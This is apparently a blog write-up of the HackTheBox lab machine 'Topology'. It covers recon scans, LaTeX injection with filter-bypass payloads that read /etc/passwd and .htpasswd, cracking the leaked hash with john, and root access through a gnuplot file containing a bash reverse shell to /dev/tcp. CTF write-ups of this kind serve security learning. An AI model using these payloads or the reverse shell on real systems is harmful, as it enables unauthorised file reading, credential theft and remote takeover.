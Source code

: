 ```yaml
---
layout: post
title: Topology - Hackthebox
date: 2023-10-05 16:30 +0100
categories:
- Writeups
- Hackthebox
tags:
- Linux
- htaccess
- htpassword
- Latex Injection
- pspy
- Subdomains Enumeration
- Gnuplot
- John
img_path: "/assets/img/topology"
image:
  path: machine_img.png
  alt: topology
---
```


Topology is a hackthebox machine that has a website showing information about a topology group. The group have a project which is a latex equation generation. The subdomain that is running the project accepts latex equations as inputs and generates a png image of that equation. However the project is vulnerable to latex injection and we can read files. One of those files, .htpassword, contains credentials that give access to a ssh session in the machine. To elevate privileges we used a binary called pspy64 to look at processes without root privileges. We are able to look at a command executed by root that can be used to gain root privileges and this way we get root access.


## Recon

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

The website seems to belong to a topology group and it is used to display information about the group.
It has three main users as staff:
- Lilian Klein
- Vajramani Daisley
- Derek Abrahams

It has an email: `lklein@topology.htb` and a link for a subdomain: `http://latex.topology.htb/equation.php`
First lets add the domain `topology.htb` and `latex.topology.htb` to the hosts file(`/etc/hosts`).

`http://latex.topology.htb/equation.php` seems like a attack surface because they expect a user input and with that they generate an image. Maybe some command is execute with some binary that converts the latex into an image. But before we start digging into more, lets look for more subdomains and directories in the main domain.

Lets run a directory discover scan with gobuster: `gobuster dir -u http://topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
```

And vhosts scan too: `gobuster vhost -u http://topology.htb -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt`

```
Found: dev.topology.htb (Status: 401) [Size: 463]
Found: stats.topology.htb (Status: 200) [Size: 108]
```

Since we didn't find nothing in the main domain(topology.htb) and before going into the latex subdomain, we add the two subdomains we found to the hosts file(/etc/hosts) and start exploring each one.

### dev.topology.htb Subdomain

`http://dev.topology.htb/` is asking for credentials in order to enter in the webpage. We tried some default credentials but we were not successful.
Lets scan the directories in this subdomain: `gobuster dir -u http://dev.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt -b 404,401`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```
###  stats.topology.htb Subdomain

`http://stats.topology.htb/` its a strange page that shows the server load, but its static.
Lets scan the directories in this subdomain: `gobuster dir -u http://stats.topology.htb -w ~/SecLists/Discovery/Web-Content/big.txt`

```shell
/.htaccess            (Status: 403) [Size: 283]
/.htpasswd            (Status: 403) [Size: 283]

```

![](stats_subdomain.png)

## Foothold

Since we didn't find anything in `http://stats.topology.htb/`, `http://dev.topology.htb/` and `http://topology.htb/`, lets look at the `equation.php` in `latex.topology.htb`.
When generating an image from a latex equation we get `Pdf Version: PDF-1.5` if we look at the file details with `exiftool`.
Another thing is that, if we try to read a file with the following latex:
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file\read\file to\fileline % Reads a line of the file into \fileline\repeat\closein\file`
We get `Illegal command detected. Sorry`. It seems like the vulnerability here is latex injection and the server has some filters that we need to bypass.


![](error.png)



This command let us read one line in /etc/passwd: `\newread\file\openin\file=equation.php\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\read\file to\line\text{\line}\newline\closein\file`
In this command `\loop` is not accepted: 
`\newread\file\openin\file=/etc/passwd\loop\unless\ifeof\file%0A%20%20%20%20\read\file%20to\fileline%0A%20%20%20%20\text{\fileline}\repeat\closein\file`
In this command `\usepackage` is not accepted: `\usepackage{verbatim}\verbatiminput{/etc/passwd}`
In this command `\input` is not accepted: `\input{/etc/passwd}\include{somefile}`
After trying some inputs, I finally got it by using`$\lstinputlisting{/etc/passwd}$`. The `\lstinputlisting` command in LaTeX is used to include the contents of an external source code file into your document and format it appropriately for code listings. This command is part of the listings package, which is commonly used for displaying code in LaTeX documents. The use of the character `$` is to format the text differently from all the text. Since `lstinputlisting` will format the text, using inside the document without the dollar sign will cause the error message `input too long. sorry`.


Links:
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection
- https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#latex-injection
- https://salmonsec.com/cheatsheets/exploitation/latex_injection5


Having the possibility to read files in the filesystem lets try to gather information:

- Looking at `/etc/passwd` we have two users: `root` and `vdaisley`.
- Since it is Apache we can know the location of the website in the filesystem by looking at `$\lstinputlisting{/etc/apache2/sites-available/000-default.conf}$`. We have, /var/www/html, /var/www/latex, /var/www/dev and /var/www/stats.
- The most interesting domain is the dev, looking at the `/var/www/dev/.htaccess` we know that the credentials are in `/var/www/dev/.htpasswd`.
- We ge the following credentials: `vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. The password seems like an hash.

Using the credentials with john the ripper we get the hash format: `md5crypt-long`
Lets run john  with the credentials against rockyou.txt wordlist: `john --format=md5crypt-long --show --wordlist=~/rockyou.txt crack.txt`
To see the password: `john --show crack.txt `, we get: `vdaisley:calculus20`.

Using the credentials in `http://dev.topology.htb` we get a webpage but its just javascript and css, a dead end.

![](dev.png)

Trying the same credentials in ssh we get a shell as the user `vdaisley`: `ssh vdaisley@10.10.11.217`


## Privilege Escalation

Inside the vdaisley home directory we have a binary called [`pspy64`](https://github.com/DominicBreuker/pspy). This is a binary that can watch for processes without needing root privileges. Basically what it does is using the API of [inotify](https://man7.org/linux/man-pages/man7/inotify.7.html) to see watch for changes in directories such as  /opt, /usr and etc. When a new notification of a modification in the filesystem triggers, pspy scans `/proc` to catch the process.

Running this binary and after waiting a few seconds a process with the command `find /opt/gnuplot -name *.plt -exec gnuplot {} ;` triggers in pspy.
Basically what is doing is finding all the files in the directory `/opt/gnuplot` with the extension of `.plt` and execute them in the command `gnuplot file.plt`. However, `gnuplot` can execute system commands as explained [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/). Since we have write privileges in the directory `/opt/gnuplot`: `drwx-wx-wx  2 root root 4096 Oct  5 07:25 gnuplot`, we create a test.plt with a bash reverse shell `system "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"`, copy to the directory and start a netcat listener. After a couple of minutes we get a shell as root since the process was runned by root. 